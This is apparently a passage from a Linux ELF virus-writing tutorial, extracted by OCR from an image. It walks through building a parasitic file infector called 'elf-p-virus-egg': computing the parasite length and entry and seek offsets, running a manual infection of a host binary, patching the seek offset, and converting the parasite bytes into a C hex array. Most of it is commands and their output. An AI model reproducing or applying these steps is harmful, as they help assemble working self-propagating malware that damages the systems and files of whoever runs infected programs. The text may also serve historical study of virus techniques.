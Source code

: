 0x8048143 specifies the start of the parasite (time).
0x8048793 is the entry point (main0).
0x80487fb is the lseek offset which is the offset in argv[0] to the parasite.
0x80489f0 is the host entry point.
0x8048a0d is the end of the parasite (not inclusive).

0x8048a0d - 0x8048143 (2250)is the parasite length.
0x8048793 - 0x8048143 (1616) is the entry point as a parasite offset.
0x80487fb - 0x8048143 (1720) is the seek offset as a parasite offset.
0x80489f0 - 0x8048143 (2221) is the host entry point as a parasite offset.

# objdump --all-headers elf-p-virus-egg
.
.
Program Header:
    LOAD off    0x00000000 vaddr 0x08048000 paddr 0x08048000 align 2**12
         filesz 0x00015960 memsz 0x00015960 flags r-x
.
.

The seek offset as a file offset is 0x80487fb - 0x08048000 + 0x00000000 (2043)
(<seek address from above> - <vaddr> + <off>)

To patch the initial seek offset, an infection must be manually performed, and the offset recorded.  The infected host is not functional in this form.

# infect-elf-p host
Parasite length: 2251, Host entry point index: 2221, Entry point offset: 1616
Host entry point: 0x8048074
Padding length: 3970
New entry point: 0x80486ce
Parasite file offset: 126
Infection Done
# vpatch elf-p-virus-egg 2043 126

The supplied program elf-egg2text will convert the address range specified on the command line, and found using the ELF loadable segments in the file to a hex string for use in C.

usage: elf-egg2text filename start stop

# elf-egg2text elf-p-virus-egg 0x08048143 0x8048a0d > parasite-v.c

parasite-v.c was edited manually to declare the hex string as the variabled char parasite[], and likewise these variables were declared.

long hentry = 2221;
long entry = 1616;
int plength = 2250;
